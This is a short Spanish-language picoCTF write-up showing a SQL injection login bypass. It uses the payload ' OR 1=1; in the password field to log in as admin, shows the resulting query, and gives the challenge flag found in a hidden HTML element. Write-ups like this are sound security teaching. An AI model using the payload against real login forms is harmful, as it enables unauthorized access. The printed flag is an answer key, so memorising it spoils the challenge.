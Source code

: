 # **Descripción**

Can you login to this website?Try to login [here](http://saturn.picoctf.net:54917/).

Hints:

- `admin` is the user you want to login as.
# **Solución**

La pista nos dice que debemos ingresar con el user de *admin*, sin embargo no conocemos la contraseña para ingresar.

Por tanto utilizaremos un comando para vulnerar la consulta SQL de estos datos en la página.

Para esto utilizaremos **' OR 1=1;** para que esa apostrofe marque el límite de la consulta original y creando una unión con la subconsulta **OR 1=1;**

Al poner esto en la contraseña el resultado es el siguiente.

```
username: admin
password: ' OR 1=1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' OR 1=1;'

# Logged in! But can you see the flag, it is in plainsight.
```

Nos dice que hemos conseguido la bandera pero no la podemos observar, por tanto, inspeccionamos la página para ver si la encontramos escondida.

```
<p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}</p>
```

Verificando que sí está, sin embargo está escondida.

# **Notas adicionales**


# **Referencias**